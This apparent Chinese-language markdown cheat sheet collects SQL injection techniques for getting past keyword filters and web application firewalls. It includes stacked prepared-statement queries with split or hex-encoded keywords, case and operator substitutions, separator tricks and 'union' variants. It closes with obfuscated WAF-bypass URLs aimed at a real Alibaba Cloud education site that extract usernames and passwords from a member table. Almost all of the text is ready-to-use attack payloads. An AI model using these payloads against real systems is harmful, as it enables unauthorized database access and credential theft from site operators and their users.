

**1. 预编译绕过关键字过滤**
```shell
# strstr 可用大小写绕过
GET /?inject=1';Set @sql=concat('sel','ect * from `1919810931114514`;');Prepare stmt from @sql;execute stmt;DEALLOCATE PREPARE stmt;--+-

# 结合 base64 编码 
GET /?inject=1';Set @sql=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;Prepare stmt from @sql;execute stmt;DEALLOCATE PREPARE stmt;--+-
```

**2. 大写/小写绕过**

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

**3. 等效运算符绕过**

```sql
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
**`select x` 绕过**
```sql
# [+]
select+x from y

# [-]
select-x from y

# [@]
select@x from y

# [!]
select!x from y

# [']
select'x' from y

# ["]
select"x" from y

# [~]
select~x from y

# [{}]
select{xxx x} from y
select{xxx `x`} from y
select{xxx `x`},.7from{x `dbname`.`tablename`}
```
**4. `union select x` 绕过**

```sql
# \N 绕过
select \N; # 代表null
select * from users where id=\Nunion select 1,2,3,\N;
select * from users where id=\Nunion select 1,2,3,\Nfrom users;

# union distinct select 或 union all select 绕过
select * from users where id=-1 union distinct select 1,2,3,4 from users;
select * from users where id=-1 union distinct select 1,2,3,version() from users;
select * from users where id=-1 union all select 1,2,3,4 from users;
select * from users where id=-1 union all select 1,2,3,version() from users;
```

## 云 WAF 绕过测试

### 1. 阿里云防火墙
```sql
# MYSQL
https://edu.aliyun.com/search?q=.8union/*^%a0{\a|^!!}*//*select|\*!??@@-- /*/*-- %26%26^!~%*/select\N|!.7|1&2%2%username,password from`finecms`.`fn_member` limit 1 offset 1-- # 整形注入
https://edu.aliyun.com/search?q=.8'|/*^ /*/* -- */1/*??@|@--  %0b%0a-- %0a*/union/*^%a0{\a|^!!}*//*select|\*!??@@--%20/*/*--%20%26%26^!~%*/select\N|!.7|1&2%2%username,password from`finecms`.`fn_member` limit 1 offset 1-- # 字符型注入

# MSSQL
https://edu.aliyun.com/?id=1.8'union--^!~%*/%0b/*%0aselect\N|!.7|1&2%2%username,password from`finecms`.`fn_member` limit 1 offset 1)--
```
  
